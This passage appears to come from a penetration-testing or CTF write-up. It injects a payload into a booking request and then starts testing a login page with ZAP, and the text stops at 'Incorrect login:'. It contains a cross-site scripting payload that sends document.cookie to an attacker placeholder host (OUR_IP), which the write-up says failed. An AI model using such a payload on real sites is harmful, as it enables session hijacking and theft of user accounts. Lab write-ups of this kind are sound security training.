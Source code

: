 This can be done by injecting a payload into the booking request.

Payload: `311<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`

![](./attachments/Pasted%20image%2020220515151948.png)

Sadly we get an error, the database does nok accept the input.

---
## Pen-testing login page:
We replay the request with ZAP manual request editor in order to see the responses from the server when the login is correct and incorrect.

Incorrect login:
